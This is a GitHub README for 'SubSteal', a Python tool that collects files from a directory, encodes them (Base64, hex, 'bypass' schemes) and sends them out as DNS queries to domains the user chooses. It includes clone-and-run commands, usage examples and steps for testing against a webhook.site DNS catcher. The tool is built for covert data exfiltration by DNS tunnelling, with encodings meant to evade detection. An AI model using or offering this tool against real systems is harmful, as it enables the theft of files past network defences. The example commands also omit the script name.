 # SubSteal

## Description
SubSteal is a Python script designed to send data to subdomains using various encryption methods. This script can be used to distribute data across multiple domains and query them using different DNS record types.

## Features
- Collects files from a specified directory.
- Encodes data using Base64, hexadecimal, and custom bypass methods.
- Sends data to subdomains using DNS queries.
- Supports multiple DNS query modes: TXT, A, NS, and RANDOM.

## Requirements
- Python 3.x
- `os`, `subprocess`, `base64`, `json`, `binascii`, `time`, `argparse`, `random`, `signal`, `sys` modules (standard Python libraries)
- dig

## Installation
Clone the repository:
```
git clone https://github.com/mel4mi/SubSteal
cd SubSteal
python3 SubSteal.py
```



# Usage
Run the script with the required arguments:

Arguments:
```
--domains       #List of domains to distribute data across (required).
--encryption    #Encryption method to use (xxd, low_bypass, medium_bypass) (required).
--mode          #Query mode (TXT, A, NS, RANDOM). Default is TXT.
```

Example Usage:
```
python3 --domains example.com example2.com --encryption xxd
```
```
python3 --domains example.com example2.com --encryption low_bypass
```
```
python3 --domains example.com --encryption xxd
```
```
python3 --domains example.com --encryption xxd --mode RANDOM
```
Try on WebHook:
1. Go [Webhook](https://webhook.site/)
2. Copy "Your unique DNS name" Url
3. Run the command:
 ```
python3 --domains WebhookDomain --encryption xxd
```

![Foto]()
